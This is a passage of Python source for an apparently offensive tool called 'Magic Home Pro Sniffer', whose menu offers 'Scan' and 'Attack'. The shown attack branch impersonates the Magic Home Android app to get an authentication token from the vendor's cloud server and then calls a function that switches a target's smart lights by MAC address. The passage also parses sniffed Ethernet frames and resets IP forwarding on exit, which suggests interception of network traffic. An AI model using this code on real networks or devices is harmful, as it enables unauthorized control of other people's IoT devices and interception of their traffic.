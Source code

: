 ```
            }

            headersAuth = {
                "User-Agent":"Magic Home/1.5.1(ANDROID,9,en-US)",
                "Accept-Language": "en-US",
                "Accept": "application/json", 
                "Content-Type": "application/json; charset=utf-8",
                "Host": "wifij01us.magichue.net",
                "Connection": "close",
                "Accept-Encoding": "gzip, deflate"
            }
            print (Fore.WHITE + "[+] Authenticating ...")
            response = requests.post(urlAuth, json=data, headers=headersAuth)
            resJsonAuth = response.json()
            token = (resJsonAuth['token'])
            lighItUp(macAddress, token)
        elif (choice == 2):
            menu()
        else:
            attack()

def ethernet_frame(data):
    dst_mac, src_mac, proto = struct.unpack('!6s6sH', data[:14])
    return get_mac_addr(dst_mac), get_mac_addr(src_mac), socket.htons(proto), data[14:]

def get_mac_addr(bytes_addr):
    bytes_str = map('{:02x}'.format, bytes_addr)
    return ':'.join(bytes_str).upper()

def menu():
    os.system('clear')
    while (True):

        print (Fore.GREEN + "+=====================================+"+ Style.RESET_ALL)
        print (Fore.GREEN + "| Author: Victor Hanna (@9lyph)       |"+ Style.RESET_ALL)
        print (Fore.GREEN + "| Description: Magic Home Pro Sniffer |"+ Style.RESET_ALL)
        print (Fore.GREEN + "| Scan   : '1'                        |"+ Style.RESET_ALL)
        print (Fore.GREEN + "| Attack : '2'                        |"+ Style.RESET_ALL)
        print (Fore.GREEN + "| (CTRL^C to Quit)                    |"+ Style.RESET_ALL)
        print (Fore.GREEN + "+=====================================+"+ Style.RESET_ALL)
        try:
            choice = (input ("Choice: "))
            if (int(choice) == 1):
                scan()
            elif (int(choice) == 2):
                attack()
        except KeyboardInterrupt:
            os.system ('sudo echo 0 > /proc/sys/net/ipv4/ip_forward')
            print("\nBye bye !\n")
            sys.exit()

if __name__ == '__main__':
    menu()
```
